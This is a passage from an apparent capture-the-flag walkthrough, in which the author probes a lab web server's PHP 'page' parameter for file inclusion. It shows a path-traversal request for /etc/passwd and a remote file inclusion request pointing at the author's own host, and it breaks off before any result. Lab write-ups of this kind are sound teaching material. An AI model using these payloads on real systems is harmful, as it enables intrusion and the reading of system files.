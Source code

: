 This directory contained several PHP files. Unfortunately I couldn’t download any of them due to permission settings on the directory and the files. This in turn led me to enumerating the last open TCP port 80 that nmap discovered.

The webpage at http://192.168.1.133 only displayed an image. The source code implied that this was the index.html and artwork.jpg files that were in the FTP server. Assuming that was true, http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08 should display the index.php file: 

![](/images/2013-12-12/07.png)

Each of the links under menu referenced a PHP file that was loaded onto the page when it was clicked. My first thought was it might be vulnerable to some form of file inclusion. When a link is clicked, the URL becomes

```text
http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
```

My first attempt was to see if I could load /etc/passwd using the following:

```
http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08/index.php?page=../../../../../../etc/passwd
```

However this didn’t seem to do anything. I tested to see if I could do a remote file inclusion:

```
http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08/index.php?page=http://192.168.1.130/test.txt
```

